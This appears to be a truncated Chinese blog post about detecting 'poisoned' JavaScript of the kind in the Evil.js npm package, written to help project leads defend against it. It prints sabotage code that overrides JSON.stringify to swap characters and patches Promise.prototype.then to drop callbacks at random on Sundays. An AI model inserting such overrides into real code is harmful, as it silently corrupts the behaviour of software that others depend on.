


# 原型链污染

最近`Evil.js`被讨论的很多，项目介绍如下


项目被发布到npm上后，引起了激烈的讨论，最终因为安全问题被npm官方移除，代码也闭源了

作为一个前端老司机，我肯定是反对这种行为，泄私愤有很多种方式，代码里下毒会被git log查到，万一违法了，还不如离职的时候给老板一个大逼兜来的解恨

今天我们来讨论一下，如果你作为项目的负责人，如何甄别这种代码下毒

## 下毒手法

最朴实无法的下毒手法就是直接替换函数，比如evil.js中，给JSON.stringify下毒了，把里面的I换成了l ，每周日prmise的then方法有10%的概率不触发，只有周日能触发着实有点损了


```js
const _stringify = JSON.stringify
JSON.stringify = function stringify(...args) {
  return _stringify(...args).replace(/I/g, 'l')
}
console.log(JSON.stringify({name:'Ill'})) // {"name":"lll"}

const _then = Promise.prototype.then
Promise.prototype.then = function then(...args) {
  if (new Date().getDay() === 0 && Math.random() < 0.1  ) {
    return
  } else {
    _then.call(this, ...args)
  }
}

```

## 检测函数toString

检测函数是否被原型链投毒，我首先想到的方法就是检测代码的toString，默认的这些全局方法都是内置的，我们在命令行里执行一下



